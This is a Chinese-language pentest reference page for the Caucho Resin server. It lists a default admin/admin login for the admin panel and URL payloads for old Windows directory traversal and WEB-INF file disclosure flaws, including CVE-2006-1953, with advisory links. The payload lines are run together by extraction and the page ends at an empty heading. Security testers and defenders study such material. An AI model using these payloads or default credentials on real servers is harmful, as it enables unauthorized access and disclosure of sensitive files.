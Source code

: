 # Resin

## 0x00 弱口令 <a href="#0x00-ruo-kou-ling" id="0x00-ruo-kou-ling"></a>

| <pre><code>123</code></pre> | <pre><code>http://victim.com/resin-admin/http://victim.com/resin-admin/status.phpadmin/admin</code></pre> |
| --------------------------- | --------------------------------------------------------------------------------------------------------- |

## 0x01 CVE-2006-1953 Resin Windows远程目录遍历漏洞

### 参考资料

[https://www.rapid7.com/resources/advisories/R7-0024.jsp](https://www.rapid7.com/resources/advisories/R7-0024.jsp)\
[http://www.nsfocus.net/vulndb/8829](http://www.nsfocus.net/vulndb/8829)

### 影响范围

受影响系统：\
Caucho Technology Resin v3.0.18 for Windows\
Caucho Technology Resin v3.0.17 for Windows

### 测试代码

| <pre><code>1234</code></pre> | <pre><code>http://victim.com/C:%5C/http://victim.com/D:%5C/http://victim.com/E:%5C/http://victim.com/F:%5C/</code></pre> |
| ---------------------------- | ------------------------------------------------------------------------------------------------------------------------ |

## 0x02 Resin %20任意文件读取

[http://webscan.360.cn/vul/view/vulid/3528](http://webscan.360.cn/vul/view/vulid/3528)

## Resin Windows 漏洞

### 漏洞描述

Resin for Windows实现上存在多个漏洞，远程攻击者可能利用此漏洞非授权获取敏感信息。\
Resin 没有正确过滤通过URL传送的输入，允许远程攻击者通过在URL中提供有任意扩展名的 DOS 设备文件名从系统上的任意 COM 或 LPT设备读取连续的数据流、通过目录遍历攻击泄露Web应用的WEB-INF目录中的文件内容，或通过包含有特殊字符的URL泄露到Caucho Resin服务器的完整系统路径。

### 影响范围

| <pre><code>1234567891011</code></pre> | <pre><code>Caucho Resin Professional v3.1.0 for WindowsCaucho Resin v3.1.0 for WindowsCaucho Resin v3.0.21 for WindowsCaucho Resin v3.0.20 for WindowsCaucho Resin v3.0.19 for WindowsCaucho Resin v3.0.18 for WindowsCaucho Resin v3.0.17 for WindowsKNOWN FIXED:Caucho Resin v3.1.1 for WindowsCaucho Resin Professional v3.1.1 for Windows</code></pre> |
| ------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

### 测试代码

| <pre><code>1234</code></pre> | <pre><code>http://www.example.com:8080/[path]/[device].[extension]http://www.example.com:8080/%20../web-infhttp://www.example.com:8080/%20http://www.example.com:8080/[path]/%20.xtp</code></pre> |
| ---------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

### 漏洞危害
